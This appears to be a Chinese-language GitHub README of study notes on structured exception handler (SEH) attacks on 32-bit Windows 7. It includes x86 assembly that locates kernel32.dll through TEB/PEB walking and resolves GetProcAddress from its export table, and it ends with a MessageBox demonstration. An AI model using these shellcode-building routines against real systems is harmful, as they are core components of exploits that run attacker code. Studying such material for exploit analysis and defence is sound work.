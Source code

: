 # windows7(x86) SEH Attack

## Reference

> 這篇筆記,是基於參考下列所完成的筆記,詳細請參考以下網址
+ 1.http://securityalley.blogspot.tw/2014/11/blog-post.html
+ 2.https://www.exploit-db.com/exploits/40245/
+ 3.wiki

## 前言

SEH(structured exception handling)中文叫**例外處理機制**,就是當process遇到例外的時候,會去呼叫的處理機制,

例如C裡面可以用try來處理例外,但實際上例外處理還是由OS來做。


### 例外處理的攻擊原理

SEH對每個user Thread,都有一個list來處理異常事件,該list的每個異常處理幀由兩個成員組成,分別是list的 **下一個例外處理機制的地址**、**當前處理函式的地址** 這邊用next、handler代表兩者,當例外發生的時候,OS會從 **FS:[0]** 也就是 TEB 找到例外處理函式的list,然後從頭開始,一個一個去呼叫例外處理函式,直到有人處裡為止。

![SEH](https://github.com/qqgnoe466263/shellcode/blob/master/windows7-x86-SEH-Attack/pic/SEH.png)



### 實作

> 可以參考以下步驟找到kernel32.dll在memory的位址
+ (1)先用FS暫存器找到**TEB(Thread Environment Block)**
+ (2)在TEB中偏移0x30的地方放著**PEB(Process Envirorment Block)**的指標
+ (3)在PEB中偏移0xC的地方放著**PEB_LDR_DATA結構**的指標
+ (4)在PEB_LDR_DATA中偏移0x14放著**InInitializationOrderModuleList**
+ (5)而在InInitializationOrderModuleList這個list中放的就是PE載入的DLL,第一個node是ntdll.dll,第二個node是kernel32.dll
+ (6)找到kernel32.dll的node後再偏移0x10就是kernel32.dll在memory中的base address

		mov eax, fs:[0x30]    //PEB
		mov eax, [eax + 0xc]  //PEB->LDR 
		mov esi, [eax + 0x14] //PEB->LDR.InMemOrderModuleList
		lodsd                 //Eax=module of InMemOrderModuleList (ntdll.dll)
		xchg esi, eax
		lodsd                 //Eax= module of InMemOrderModuleList (kernel32.dll)
		mov ecx, [eax + 0x10] //kernel32 base address
 
 所以從我的電腦上找到的位置就是像這樣,可以用ollydbg或其他的動態調試工具看一下
 
![kernel32base](https://github.com/qqgnoe466263/shellcode/blob/master/windows7-x86/pic/ker_base.jpg)

> 有了kernel32.dll的位址就可以找GetProcAddress()的位址
+ (1)在kernel32.dll偏移0x3C的位址就是**PE Header**
+ (2)PE header偏移0x78的位址放著**IMAGE_EXPORT_DIRECTORY(函數導出目錄)**
+ (3)就可以從這個目錄找到所需函數的入口地址
+ (4)在目錄偏移0x20的地方放著**函數名稱表**,所以先從這個表找到GetProcAddress()的編號
+ (5)在目錄偏移0x1c的地方放著**函數偏移表(RVA)**,剛剛找到的編號拿來查詢這個表,就可以找到函數的偏移地址

		xor ebx, ebx
		mov ebx, [ecx + 0x3c]    //(kernel32.dll base address+0x3c)=DOS->e_lfanew
		add ebx, ecx             //(DOS->e_lfanew+base address of kernel32.dll)=PE Header
		mov ebx, [ebx + 0x78]    // DataDirectory->VirtualAddress
		add ebx, ecx             // IMAGE_EXPORT_DIRECTORY
		mov esi, [ebx + 0x20]    //AddressOfNames 函数名的列表 offset
		add esi, ecx             //AddressOfNames 函数名的列表 address		

		xor edx,edx
		Get_func:
			inc edx					//; Incrementing the Ordinal
			lodsd					//; Get name Offset
			add eax, ecx				//; (name offset + kernel32.dll base address) = Get Function name
			cmp dword ptr[eax], 0x50746547		//; PteG
			jnz Get_func
			cmp dword ptr[eax + 0x4], 0x41636f72 	//; Acor
			jnz Get_func
			cmp dword ptr[eax + 0x8], 0x65726464 	//; erdd
			jnz Get_func		
		mov GetProcAddre_ptr,edx
		
		mov esi,[ebx + 0x1c]    		//;(IMAGE_EXPORT_DIRECTORY+0x1c)=AddressOfFunctions
		add esi,ecx				//;ESI=beginning of Address table	
		mov edx,[esi + edx*4]			//;EDX=Pointer(offset)
		add edx,ecx				//;GetProcAddress()

有了GetProcAddress()這個function,就可以利用它執行其他的function!!

### Messegebox

OS: windows7 x64 

IDE: VS2015 Debug x86

![messagebox](https://github.com/qqgnoe466263/shellcode/blob/master/windows7-x86/pic/messagebox.jpg)
